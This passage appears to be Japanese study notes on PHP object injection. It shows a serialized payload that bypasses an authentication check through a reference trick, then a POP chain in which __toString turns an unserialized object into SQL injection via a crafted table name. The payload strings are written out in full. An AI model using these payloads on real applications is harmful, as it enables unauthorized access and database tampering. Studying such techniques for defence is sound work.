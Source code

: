 ```php
        $this->code = &$this->secretCode;
    }
}
$obj1 = new Object1();
echo serialize($obj1);  // O:7:"Object1":2:{s:10:"secretCode";s:1:"a";s:4:"code";R:2;}
?>
```
以下で認証を突破できる！   
```txt
?input=O:7:"Object1":2:{s:10:"secretCode";s:1:"a";s:4:"code";R:2;}
```
## POP chain 
### __toString (SQL Injection)
```php
<?php
class Example3{
   protected $obj;

   function __construct(){
      // some PHP code...
   }
   // Exampleクラスのインスタンスが文字列として呼びだされたときに__toString()を実行
   function __toString(){
      if (isset($this->obj)) {
          // $this->objはインスタンスであるとして、そのインスタンスのgetValueメソッドを実行
          return $this->obj->getValue();
      }else{
          return "__toString else";
      }
   }
}

class SQL_Row_Value
{
   private $_table;
   private $id;

   // some PHP code...
   // getValue($id)とすると上の__toString内では引数無しで呼び出してるからエラーになる
   function getValue()
   {
      $sql = "SELECT * FROM {$this->_table} WHERE id = ".(int)$this->id;
      return $sql;
   }
}

// これをデシリアライズすればSQLインジェクションができる！
$user_data = unserialize('O:8:"Example3":1:{s:3:"obj";O:13:"SQL_Row_Value":2:{s:6:"_table";s:10:"users -- -";s:2:"id";i:2;}}');
echo $user_data;

// 実際に実行されるSQLクエリ
// SELECT * FROM users -- - WHERE id = 2
?>
```
以下でPayloadを作成するが、細部がうまいこといってないので手動で修正する。   
```php
<?php
class SQL_Row_Value{
   private $_table ="users -- -";
}

```